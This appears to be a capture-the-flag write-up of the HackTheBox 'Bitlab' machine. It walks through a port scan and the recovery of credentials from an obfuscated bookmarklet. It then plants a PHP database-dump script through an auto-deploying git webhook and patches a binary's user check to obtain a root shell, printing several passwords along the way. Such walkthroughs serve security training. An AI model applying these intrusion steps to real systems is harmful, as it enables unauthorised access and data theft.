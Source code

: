 ```yaml
---
title: "Bitlab - HackTheBox"
date: "2020-01-11"
tags: []
---
```


Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-11 12:23 EST
Nmap scan report for 10.10.10.114
Host is up (0.058s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's visit the website on port 80:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/bitlab/bitlab.png)

This is a Gitlab server installation and trying common username and passwords
combinations or a bruteforce with Hydra does not gives us anything, but by
visiting the [Help](http://10.10.10.114/help/bookmarks.html) link in the bottom, we find an interesting page:

![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/bitlab/help.png)

The most interesting link is the last one, Gitlab login, which contains this
javascript function:
```js
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It is obfuscated, so let's use a tool like `https://beautifier.io/` to improve
the readability:
```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

And let's replace the variable with their values:

```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
})()
```

Basically what it does is it autocompletes the login form with `clave` as
username and `11des0081x` as password. After logging in we find two
repositories:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/bitlab/repositories.png)

This is the code of Deployer:
```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```
It does a Git pull automatically after a merge is done on the Profile
repository. Luckily for us, the Profile repository is cloned into the root of
the web server, and it's visitable by going on the user's settings (which is
strange, maybe it was an error).

Another interesting thing can be found in the user's snippets:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/bitlab/snippets.png)

The logical thing to do now is to try to use those credentials to dump the
table, so let's create a file called dump.php in the Profile repository and let's write the
following code:
```php
<?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection,"SELECT * FROM profiles;");
    var_dump(pg_fetch_all($result));
?>
```
After creating a merge request and accepting it, the Deployer project will
automatically pull the changes and the `dump.php` file will be visitable. Here
is it's output:
```json
array(1) {
  [0]=>
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}
```

The password looks like base64 and it gets decoded as `ssh-str0ng-p@ss`, but
there is an invalid padding, and the password is the actual base64 string. I
hate when in CTFs these things happen, it's just a loss of time.
So let's connect with SSH and let's get the user flag:
```
clave@bitlab:~$ wc -c user.txt
33 user.txt
```

# Privilege escalation
The first thing that jumped to my eyes is a file in user's home:
```
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
```

Let's copy it on our machine to analyze it:
`scp clave@10.10.10.114:/home/clave/RemoteConnection.exe .`

Using Ghidra to reverse engineer it we can find some interesting strings:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/bitlab/strings.png)

And those strings are used in this function:
{{< highlight C "linenos=table, hl_lines=71" >}}
/* WARNING: Could not reconcile some variable overlaps */

void FUN_00401520(void)

{
  LPCWSTR pWVar1;
  undefined4 ***pppuVar2;
  LPCWSTR lpParameters;
  undefined4 ***pppuVar3;
  int **in_FS_OFFSET;
  uint in_stack_ffffff44;
  undefined4 *puVar4;
  uint uStack132;
  undefined *local_74;
  undefined *local_70;
  DWORD local_6c;
  void *local_68 [4];
  undefined4 local_58;
  uint local_54;
  void *local_4c [4];
  undefined4 local_3c;
  uint local_38;
  undefined4 ***local_30 [4];
  int local_20;
  uint local_1c;
  uint local_14;
  int *local_10;
  undefined *puStack12;
  undefined4 local_8;
  
  local_8 = 0xffffffff;
  puStack12 = &LAB_004028e0;
  local_10 = *in_FS_OFFSET;
  uStack132 = DAT_00404018 ^ (uint)&stack0xfffffffc;
  *(int ***)in_FS_OFFSET = &local_10;
  local_6c = 4;
  local_14 = uStack132;
  GetUserNameW((LPWSTR)0x4,&local_6c);
  local_38 = 0xf;
  local_3c = 0;
  local_4c[0] = (void *)((uint)local_4c[0] & 0xffffff00);
  FUN_004018f0();
  local_8 = 0;
  FUN_00401260(local_68,local_4c);
  local_74 = &stack0xffffff60;
  local_8._0_1_ = 1;
  FUN_004018f0();
  local_70 = &stack0xffffff44;
  local_8._0_1_ = 2;
  puVar4 = (undefined4 *)(in_stack_ffffff44 & 0xffffff00);
  FUN_00401710(local_68);
  local_8._0_1_ = 1;
  FUN_00401040(puVar4);
  local_8 = CONCAT31(local_8._1_3_,3);
  lpParameters = (LPCWSTR)FUN_00401e6d();
  pppuVar3 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar3 = local_30;
  }
  pWVar1 = lpParameters;
  pppuVar2 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar2 = local_30;
  }
  while (pppuVar2 != (undefined4 ***)(local_20 + (int)pppuVar3)) {
    *pWVar1 = (short)*(char *)pppuVar2;
    pWVar1 = pWVar1 + 1;
    pppuVar2 = (undefined4 ***)((int)pppuVar2 + 1);
  }
  lpParameters[local_20] = L'\0';
  if (local_6c == L'clave') {
  ShellExecuteW((HWND)0x0,L"open",L"C:\\Program Files\\PuTTY\\putty.exe",lpParameters,(LPCWSTR)0x0, 10);
  }
  if (0xf < local_1c) {
    operator_delete(local_30[0]);
  }
  local_1c = 0xf;
  local_20 = 0;
  local_30[0] = (undefined4 ***)((uint)local_30[0] & 0xffffff00);
  if (0xf < local_54) {
    operator_delete(local_68[0]);
  }
  local_54 = 0xf;
  local_58 = 0;
  local_68[0] = (void *)((uint)local_68[0] & 0xffffff00);
  if (0xf < local_38) {
    operator_delete(local_4c[0]);
  }
  *in_FS_OFFSET = local_10;
  FUN_00401e78();
  return;
}
{{< /highlight >}}

It looks like it uses some functions to decrypt a password and use it to login
with PuTTY to a machine on line 71. The only problem is that the user that runs
the program must be named `Clave`, and this check is at address `0x401640`:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/bitlab/graph.png)

We can patch the program by editing `JNZ LAB_00401662` at address `0x401647` to `JMP 0x00401649` to
unconditionally jump, and running the patched program gets us a root shell on
the machine:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/bitlab/putty.png)

Cool! This was my first machine that needed reverse engineering so it took me a
while, and the important thing that we can learn is to not be lazy and use
strange methods to save passwords and important stuff.

Another way that this step could have been done is to use a debugger and put a breakpoint after the password gets decoded and read the memory:
```
Qf7]8YSV.wDNF*[7d?j&eD4^
```

Thanks for reading!
